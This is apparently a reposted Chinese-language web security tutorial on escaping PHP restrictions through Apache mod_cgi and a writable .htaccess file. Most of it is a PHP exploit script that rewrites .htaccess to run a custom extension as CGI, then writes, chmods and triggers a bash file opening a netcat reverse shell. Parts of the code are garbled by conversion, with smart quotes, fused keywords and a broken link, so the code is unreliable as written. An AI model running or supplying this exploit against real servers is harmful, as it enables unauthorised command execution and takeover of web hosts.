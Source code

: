 # 利用 Apache+mod_cgi+.htaccess 绕过

> 原文：[https://www.zhihuifly.com/t/topic/3469](https://www.zhihuifly.com/t/topic/3469)

## 利用 Apache+mod_cgi+.htaccess 绕过

**1\. 前提条件**

*   启用mod-cgi
*   允许.htaccess文件
*   .htaccess可写

**2\. 基本原理**

在apache的WEB环境中，我们经常会使用.htaccess这个文件来确定某个目录下的URL重写规则，特别是一些开源的CMS或者框架当中经常会用到，比如著名的开源论坛discuz!，就可以通过.htaccess文件实现URL的静态化，大部分PHP框架，例如ThinkPHP和Laravel，在apache环境下会用.htaccess文件实现路由规则。但是如果.htaccess文件被攻击者修改的话，攻击者就可以利用apache的mod_cgi模块，直接绕过PHP的任何限制，来执行系统命令。

**3\. exp**

```
<?php
$cmd = "nc -c'/bin/bash' 127.0.0.1 4444"; //反弹shell
$shellfile ="#!/bin/bash\n"; //指定shell
$shellfile .="echo -ne \"Content-Type: text/html\\n\\n\"\n"; //需要指定这个header，否则会返回500
$shellfile .="$cmd";
functioncheckEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
   echo "$text: " . ($condition ?$yes : $no) . "<br>\n";
}
if(!isset($_GET['checked']))
{
   @file_put_contents('.htaccess',"\nSetEnv HTACCESS on", FILE_APPEND);
   header('Location: ' . $_SERVER['PHP_SELF']. '?checked=true'); //执行环境的检查
}
else
{
   $modcgi = in_array('mod_cgi',apache_get_modules()); // 检测mod_cgi是否开启
   $writable = is_writable('.'); //检测当前目录是否可写
   $htaccess = !empty($_SERVER['HTACCESS']);//检测是否启用了.htaccess
       checkEnabled("Mod-Cgienabled",$modcgi,"Yes","No");
       checkEnabled("Iswritable",$writable,"Yes","No");
       checkEnabled("htaccessworking",$htaccess,"Yes","No");
   if(!($modcgi && $writable&& $htaccess))
   {
       echo "Error. All of the above mustbe true for the script to work!"; //必须满足所有条件
   }
   else
   {

checkEnabled(“Backing

up.htaccess”,copy(".htaccess",".htaccess.bak"),“Suceeded!Saved in

.htaccess.bak”,“Failed!”); [//备份一下原有.htaccess](//xn--4gqwa83ev9kv3h4uw.htaccess) `checkEnabled(“Write

.htaccessfile”,file_put_contents(’.htaccess’,“Options

+ExecCGI\nAddHandlercgi-script

.dizzle”),“Succeeded!”,“Failed!”);//.dizzle，我们的特定扩展名

checkEnabled(“Write shellfile”,file_put_contents(‘shell.dizzle’,$shellfile),“Succeeded!”,“Failed!”);//写入文件

checkEnabled(“Chmod777”,chmod(“shell.dizzle”,0777),“Succeeded!”,“Failed!”);//给权限

echo “Executing the script now.Check your listener <img src>”; //调用

}

}

?>` 
```